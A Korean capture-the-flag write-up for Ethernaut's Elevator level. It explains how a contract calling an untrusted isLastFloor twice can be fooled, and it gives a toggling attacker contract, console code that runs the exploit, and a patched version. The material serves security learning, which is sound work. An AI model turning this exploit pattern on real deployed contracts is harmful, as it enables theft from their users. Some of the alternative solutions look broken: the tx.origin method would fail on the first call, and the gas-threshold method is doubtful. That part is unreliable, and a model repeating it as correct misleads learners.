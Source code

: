 # Ethernaut Level 11: Elevator 라이트업

## 🎯 목표
엘리베이터의 `top` 변수를 `true`로 만들어 최상층에 도달하기

## 📋 문제 분석

### 주어진 코드
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

### 코드 흐름 분석
1. `goTo` 함수가 호출되면 `msg.sender`를 `Building` 인터페이스로 캐스팅
2. **첫 번째 호출**: `building.isLastFloor(_floor)`를 호출하여 if 조건 검사
3. if 조건이 참이면 (즉, `isLastFloor`가 `false`를 반환하면):
   - `floor = _floor` 설정
   - **두 번째 호출**: `top = building.isLastFloor(floor)` 실행

## 🔍 취약점 발견

### 핵심 취약점
**같은 함수 `isLastFloor`가 두 번 호출되는데, 매번 같은 값을 반환해야 한다는 보장이 없다!**

### 공격 시나리오
1. **첫 번째 호출**: `false` 반환 → if 조건 통과
2. **두 번째 호출**: `true` 반환 → `top = true` 설정

### 왜 이게 가능한가?
- `isLastFloor` 함수는 `view`가 아닌 일반 함수 (상태 변경 가능)
- Solidity에서는 함수가 매번 다른 값을 반환할 수 있음
- 상태 변수를 이용해 호출 횟수나 토글 상태를 추적 가능

## 💡 해결책

### Building 컨트랙트 작성
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    bool public toggle = true;
    
    function isLastFloor(uint256) external returns (bool) {
        // 호출될 때마다 토글
        toggle = !toggle;
        return toggle;
    }
    
    function attack(address _elevator) public {
        IElevator(_elevator).goTo(10);
    }
}
```

### 작동 원리
1. **초기 상태**: `toggle = true`
2. **첫 번째 `isLastFloor` 호출**: 
   - `toggle = !true = false`
   - `false` 반환 → if 조건 통과
3. **두 번째 `isLastFloor` 호출**:
   - `toggle = !false = true`  
   - `true` 반환 → `top = true` 설정

## 🚀 익스플로잇 실행

### 1단계: Remix에서 Building 컨트랙트 배포
```javascript
// 배포 결과
Contract Address: 0x51a1ceb83b83f1985a81c295d1ff28afef186e02
```

### 2단계: 브라우저 콘솔에서 공격 실행
```javascript
// Building 컨트랙트 설정
const buildingAddress = "0x51a1ceb83b83f1985a81c295d1ff28afef186e02";
const buildingABI = [
    {
        "inputs": [{"internalType": "address", "name": "_elevator", "type": "address"}],
        "name": "attack",
        "outputs": [],
        "stateMutability": "nonpayable",
        "type": "function"
    }
];

// 공격 실행
const building = new web3.eth.Contract(buildingABI, buildingAddress);
await building.methods.attack(contract.address).send({from: player});

// 결과 확인
console.log("Top:", await contract.top()); // true!
```

## 🎉 성공!

### Before
```
Top: false
Floor: 0
```

### After  
```
Top: true
Floor: 10
```

## 🔬 다른 해결 방법들

### 방법 1: 카운터 사용
```solidity
contract Building {
    uint256 public callCount = 0;
    
    function isLastFloor(uint256) external returns (bool) {
        callCount++;
        return callCount > 1; // 두 번째 호출부터 true
    }
}
```

### 방법 2: tx.origin 활용
```solidity
contract Building {
    function isLastFloor(uint256) external returns (bool) {
        return tx.origin != msg.sender;
    }
}
```

### 방법 3: 가스 사용량 기반
```solidity
contract Building {
    function isLastFloor(uint256) external returns (bool) {
        return gasleft() < 50000; // 두 번째 호출 시 가스가 더 적음
    }
}
```

## 📚 학습 포인트

### 1. 함수 순수성(Function Purity)의 중요성
- `view`/`pure` 함수가 아닌 경우 상태 변경 가능
- 같은 입력에 대해 다른 출력이 가능

### 2. 재진입 공격(Reentrancy)과의 차이
- 이 문제는 재진입이 아닌 **상태 의존적 반환값** 공격
- 외부 컨트랙트 호출 시 예상치 못한 동작 가능

### 3. 인터페이스 설계의 함정
- 외부 컨트랙트의 동작에 의존하는 로직의 위험성
- 상태 변경 함수 vs view 함수의 차이점 인식 필요

### 4. 보안 모범 사례
```solidity
// 취약한 코드
if (!building.isLastFloor(_floor)) {
    floor = _floor;
    top = building.isLastFloor(floor); // 같은 함수 재호출!
}

// 개선된 코드
bool isLast = building.isLastFloor(_floor);
if (!isLast) {
    floor = _floor;
    top = isLast; // 저장된 값 재사용
}
```
